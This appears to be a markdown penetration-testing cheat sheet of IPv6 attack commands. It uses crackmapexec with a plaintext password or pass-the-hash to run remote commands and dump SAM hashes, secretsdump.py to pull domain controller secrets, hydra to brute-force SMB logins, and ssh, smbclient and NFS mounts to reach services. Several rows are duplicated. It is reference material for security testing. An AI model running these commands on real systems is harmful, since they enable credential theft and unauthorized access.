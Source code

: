 ### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210-u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -H "Hash" -x "hostname"|
|python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:DB8:7654:3210:FEDC:BA98:7654:3210 |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |

### IPv6 hydra Password Brute Force
| for Example  |
| ------------- |
|hydra -l Administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 smb://[IPv6] |

### IPv6 Services
| for Example  |
| ------------- |
|ssh MeMe@fe80::ea9a:8fff:fe67:190d%eth0 |
|smbclient -L //2001:db7::1234:1%eth0 |
|http://[2001:db7::1234:2] |
|telnet 3ffe:400:100::1 80 |
|mount -t nfs [2001:db8::60fe:5bff:febc:912]:/home/MeMe /home/mount/ |
|ssh MeMe@fe80::ea9a:8fff:fe67:190d%eth0 |

